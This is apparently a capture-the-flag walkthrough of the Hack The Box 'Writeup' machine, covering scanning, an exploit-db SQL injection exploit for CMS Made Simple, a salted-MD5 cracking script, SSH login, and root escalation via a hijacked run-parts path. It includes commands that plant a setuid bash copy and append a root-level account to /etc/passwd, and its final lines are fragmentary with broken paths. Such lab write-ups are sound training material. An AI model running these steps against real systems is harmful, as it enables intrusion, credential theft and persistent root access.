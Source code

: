 ## --------->> WriteUp <<-----------

// We start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.138 -p-
----

    Nmap scan report for 10.10.10.138
    Host is up (0.17s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
    |   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
    |_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-robots.txt: 1 disallowed entry 
    |_/writeup/
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Nothing here yet.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
// navigating to http://10.10.10.138/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/1.png)

// When tried to search for any directories in http://10.10.10.138/ with gobuster and dirsearch

// I had Errors, what means this site is protected as written in the site

// So, i tried to approach other way and navigate http://10.10.10.138/robots.txt 

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/2.png)

// There is mention of another directory '/writeup/'

// Navigating to http://10.10.10.138/writeup/

// Its seems like some writeups for HTB

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/3.png)

// Nothing special in the directories inside

// But, somthing Strange that cougth my eye waz the strange COOKIE (usually PESSID and here CMSSESSID)

    CMSSESSID9d372ef93962:"1nreh2bl6g859iaq65c12iqjb1"

// Lets use Tool wappalyzer - CMS finder

// for download the tool first need npm installer

    $ apt install npm

// then install wappalyzer tool

    $ npm i -g wappalyzer

// Now lets scan the CMS

    $ wappalyzer http://10.10.10.138/writeup/ | jq
    
// found cms !

    cms made simple
    
// Search exploit db cms made simple 2019    

// found python exploit for CVE:2019-9053, lets try him

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/4.png)

// Download the explot

    $ wget https://www.exploit-db.com/download/46635

// Run the exploit (work ONLY with python2)

    $ python 46635 -u http://10.10.10.138/writeup/
-----

    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7


// we can decrypted the hash at https://hashtoolkit.com/generate-hash/?text=salt

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/WriteUp/5.png)


// Or, we could use python library 'hashlib' to help us with small script(the script file added)

    $ cat hash_dec.py 
----

    import hashlib


    def crack_password():

        password = "62def4866937f08cc13bab43bb14e6f7"
        wordlist = "/usr/share/wordlists/rockyou.txt"
        salt = "5a599ef579066807"
        cracked = ''

        # open /usr/share/wordlists/rockyou.txt
        dictionary = open(wordlist)

        # Loop for compare hash to hash from rockyou.txt
        for line in dictionary.readlines():
        # drop down line to next passowrd
            line = line.replace("\n", "")
        # if "5a599ef579066807" + "somepassowrd" == "62def4866937f08cc13bab43bb14e6f7"
            if hashlib.md5(str(salt) + line).hexdigest() == password:
            # print cracked passowrd
                cracked += "\n[+] Password cracked: " + line
            # exit
                break
        print(cracked)


    crack_password()
    

!!! The script work only for that hash !!!

// run script (python2)

    $ python hash_dec.py 
-----

    [+] Password cracked: raykayjay9



// Lets connect user jkr with ssh

    $ ssh jkr@10.10.10.138

// We have connection !

    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jkr@writeup:~$ id
    uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)

// and we got user flag !

    jkr@writeup:~$ cat user.txt 
    d4e493fd4.....................
    
### -----Privilleges Escalaltion----

// First we will run ![PSPY](https://github.com/DominicBreuker/pspy) tool to check our options

// For upload the tool on remote machine we will use python http server

    $ python3 -m http.server 1445
    Serving HTTP on 0.0.0.0 port 1445 (http://0.0.0.0:1445/) ...

// Download the tool with wget

    wget http://10.10.17.8:1445/pspy64 

// Give execute(+x) permissions

    jkr@writeup:/tmp/mytest$ chmod +x pspy64 

// And run the file

    jkr@writeup:/tmp/mytest$ ./pspy64 
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                       ░           ░ ░     
                                   ░ ░    
       
     Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    ........
    2021/08/02 14:53:50 CMD: UID=0    PID=10     | 
    2021/08/02 14:53:50 CMD: UID=0    PID=1      | init [2]   
    2021/08/02 14:54:01 CMD: UID=0    PID=2291   | /usr/sbin/CRON 
    2021/08/02 14:54:01 CMD: UID=0    PID=2292   | /usr/sbin/CRON 
    2021/08/02 14:54:01 CMD: UID=0    PID=2293   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
    2021/08/02 14:55:01 CMD: UID=0    PID=2294   | /usr/sbin/CRON 
    2021/08/02 14:55:01 CMD: UID=0    PID=2295   | /usr/sbin/CRON 
    2021/08/02 14:55:01 CMD: UID=0    PID=2296   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
    2021/08/02 14:55:59 CMD: UID=0    PID=2297   | sshd: [accepted]
    2021/08/02 14:56:00 CMD: UID=102  PID=2298   | sshd: [net]       
    2021/08/02 14:56:01 CMD: UID=0    PID=2299   | /usr/sbin/CRON 
    2021/08/02 14:56:01 CMD: UID=0    PID=2300   | /usr/sbin/CRON 
    2021/08/02 14:56:01 CMD: UID=0    PID=2301   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 


// We can see there is a proccess /root/bin/cleanup.pl running every minute

// When open another window and connect to jkr user with ssh i get logs in the pspy

    2021/08/02 14:56:17 CMD: UID=0    PID=2302   | sshd: jkr [priv]  
    2021/08/02 14:56:17 CMD: UID=0    PID=2303   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2021/08/02 14:56:17 CMD: UID=0    PID=2304   | run-parts --lsbsysinit /etc/update-motd.d 
    2021/08/02 14:56:17 CMD: UID=0    PID=2305   | uname -rnsom 
    2021/08/02 14:56:17 CMD: UID=0    PID=2306   | sshd: jkr [priv]  
    2021/08/02 14:56:18 CMD: UID=1000 PID=2307   | sshd: jkr@pts/1   
    2021/08/02 14:56:18 CMD: UID=1000 PID=2308   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2309   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2310   | -bash 
    2021/08/02 14:56:18 CMD: UID=1000 PID=2311   | -bash 
    2021/08/02 14:56:51 CMD: UID=1000 PID=2312   | -bash 

// what we can see here is that when a user logs in, root runs sh, that run /usr/bin/env, that provide a path and runs 'run-parts' on the 'update-motd.d' folder

// lets test write permissions on /usr/local/bin/run-parts

echo -e '#!/bin/bash\n\ncp /bin/bash /bin/SomeXFile\nchmod u+s /bin/SomeXFile' > /usr/local/bin/run-parts; chmod +x /usr.local.bin/run-parts

#!/bin/bash
echo 'rooot:gDlPrjU6SWeKo:0:0:root:/root:/bin/bash' >> etc/passwd

raykayjay9

